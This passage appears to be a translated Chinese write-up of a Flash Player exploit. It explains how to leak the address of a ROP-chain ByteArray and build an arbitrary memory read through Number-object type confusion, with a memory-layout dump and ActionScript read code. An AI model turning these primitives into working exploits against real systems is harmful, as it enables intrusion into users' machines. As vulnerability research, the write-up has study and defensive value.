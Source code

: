 现在可以通过执行li32(0x28)来泄露出我们构造的ROP链（ByteArray对象）的地址---|||也就是执行一个原始的读操作，来读取Vector的第一个element，然后将读取到的tagged pointer再通过“address & 0xfffffff8”这样的按位与操作untag掉。

已经得到泄露出的ROP链（ByteArray对象）的指针后，我们接下来再去读取ByteArray对象0x40偏移处存放的DWORD数据，此处的DWORD是指向一个ByteArray::Buffer对象的指针。下面是所引用ByteArray对象的内存布局：

```
$ ==> <ByteArray>   71078F10  OFFSET <Flash32_.ByteArray_vtable>
$+4                 00000002
$+8                 069CFDD0
$+C                 0697E628
$+10                06831360
$+14                00000040
$+18                71078EB8  Flash32_.71078EB8
$+1C                71078EC0  Flash32_.71078EC0
$+20                71078EB4  Flash32_.71078EB4
$+24                710BD534  Flash32_.710BD534
$+28                06603080
$+2C                06432000
$+30                0688EFB8
$+34                00000000
$+38                00000000
$+3C                7108ACC8  Flash32_.7108ACC8
$+40                0686D5D8  <pointer to ByteArray::Buffer>
$+44                00000000

```

为读到存储在ByteArray对象0x40偏移处的dword，我决定使用[Vupen的Nocolas Joly提出的一种利用技术](http://www.vupen.com/blog/20110326.Technical_Analysis_and_Win7_Exploitation_Adobe_Flash_0Day_CVE-2011-0609.php)，该技术通过修改（tagging）一个指针以使其按照Number（IEEE-754 double precision）类型来解析，从而产生一个类型混乱，该类型混乱会为我们提供一个默认基本数据类型，通过它可以读取任意地址的8字节数据。大概过程如下：

首先我们把我们将想要读取数据的地址修改为一个Number对象指针（将地址按位或上7--见上面的类型对应表），这样我们就成功地创建了一个类型混乱；然后我们通过执行si32(fake_number_object,0x2c)指令，将此指向Number对象的伪造指针存放到Vector的element[]数组中。

之后，我们读取伪造的Number对象（下方代码中的this.the_vector[1](http://i.imgur.com/9GE5qvw.png)）的值，并将其写入到一个备用ByteArray中；通过这种方法，我们想要读取的地址中的8个字节的数据就被存放到备用ByteArray中了。

```
obj = this.the_vector[1];
z = new Number(obj);

var b:ByteArray = new ByteArray();
b.endian = Endian.LITTLE_ENDIAN;
b.writeDouble(z);

/* If pointer is aligned to 8, then we read the first dword */
if ((pointer & 7) == 0){
    result = b[3]*0x1000000 + b[2]*0x10000 + b[1]*0x100 + b[0];
}
/* else we read the second dword */
else{
    result = b[7]*0x1000000 + b[6]*0x10000 + b[5]*0x100 + b[4];
}
return result;

```
